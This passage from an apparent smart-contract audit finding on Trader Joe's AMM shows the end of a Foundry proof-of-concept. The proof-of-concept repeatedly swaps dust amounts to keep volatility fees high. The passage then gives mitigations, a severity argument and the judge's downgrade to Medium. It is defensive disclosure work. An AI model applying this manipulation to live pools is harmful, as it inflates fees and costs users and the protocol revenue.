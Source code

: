     
            // ATTACK step 3 - keep high Vr -> high Va
            for(uint256 i=0;i<10;i++) {
                vm.warp(block.timestamp + 49);
    
                token18D.mint(address(pair), 10);
                vm.prank(ALICE);
                pair.swap(false, DEV);
    
                (reserveX,reserveY,id ) = pair.getReservesAndId();
                console.log("**************");
                console.log("ITERATION ", i);
                console.log("active ID" , id);
                console.log("reserveX" , reserveX);
                console.log("reserveY" , reserveY);
                feeParams = pair.feeParameters();
                console.log("indexRef" , feeParams.indexRef);
                console.log("volatilityReference" , feeParams.volatilityReference);
                console.log("volatilityAccumulated" , feeParams.volatilityAccumulated);
                console.log("**************");
            }
    
        }

### [](#tools-used-3)Tools Used

Manual audit, foundry

### [](#recommended-mitigation-steps-9)Recommended Mitigation Steps

Several options:

1.  Decay linearly to the time since last swap when T < Tf.
2.  Don’t update \_tf.time if swap did not affect Vr
3.  If `T<Tf`, only skip Vr update if swap amount is not negligible. This will make the attack not worth it, as protocol will accrue enough fees to offset the lack of user activity.

### [](#severity-level)Severity level

I argue for HIGH severity because I believe the impact to the protocol is that most users will favor alternative AMMs, which directly translates to a large loss of revenue. AMM is known to be a very competitive market and using high volatility fee `%` in low volatility times will not attract any users.

**[Alex the Entreprenerd (judge) decreased severity to Medium and commented](https://github.com/code-423n4/2022-10-traderjoe-findings/issues/430#issuecomment-1292424264):**

> Not sure about severity at this time, changing to group.
> 
> Ultimately if invariant broken, High is appropriate, if Loss of Value Med more appropriate. Devil is in the detail.

**[0x0Louis (Trader Joe) acknowledged and commented](https://github.com/code-423n4/2022-10-traderjoe-findings/issues/430#issuecomment-1297297728):**
